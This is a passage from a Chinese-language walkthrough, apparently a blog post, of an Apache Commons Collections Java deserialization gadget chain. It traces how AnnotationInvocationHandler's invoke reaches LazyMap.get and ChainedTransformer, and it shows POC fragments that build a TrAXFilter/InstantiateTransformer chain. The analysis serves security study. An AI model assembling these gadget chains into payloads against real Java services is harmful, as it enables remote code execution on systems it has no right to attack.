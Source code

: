 然后触发invoke方法

在invoke方法中的Switch会走default分支

![image-20220120214627688](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220120214627688.png)

执行`Object var6 = this.memberValues.get(var4);`

因为`this.memberValues`的值是`mapproxy`,而且mapproxy被代理对象是Map接口,LazyMap实现了Map接口,其实看下面代码

```
Map innermap = new HashMap();
Map outmap = LazyMap.decorate(innermap,chain);
```

我们其实是对LazyMap做了一个代理,所以这里是会去调用LazyMap的get方法的

接下来执行`Object value = factory.transform(key);`

![image-20220120215237770](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220120215237770.png)

再看看控制器factory的值怎么来的

```
protected LazyMap(Map map, Transformer factory) {
    super(map);
    if (factory == null) {
        throw new IllegalArgumentException("Factory must not be null");
    }
    this.factory = factory;
}
```

不过构造函数是受保护的,但是在CC1中已经提到了,在这个类里面有个decorate修饰是共有的

```
public static Map decorate(Map map, Transformer factory) {
    return new LazyMap(map, factory);
}
```

可以直接调用decorate方法来对LazyMap进行一个回调,调用其构造器对factory进行赋值

```
Map innermap = new HashMap();
Map outmap = LazyMap.decorate(innermap,chain);
```

跟进transform方法相对应的POC代码如下

```
Transformer[] transformers = new Transformer[]{
        new ConstantTransformer(TrAXFilter.class),
        new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{templates})
};

ChainedTransformer chain = new ChainedTransformer(transformers);
```

![image-20220120215553998](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220120215553998.png)
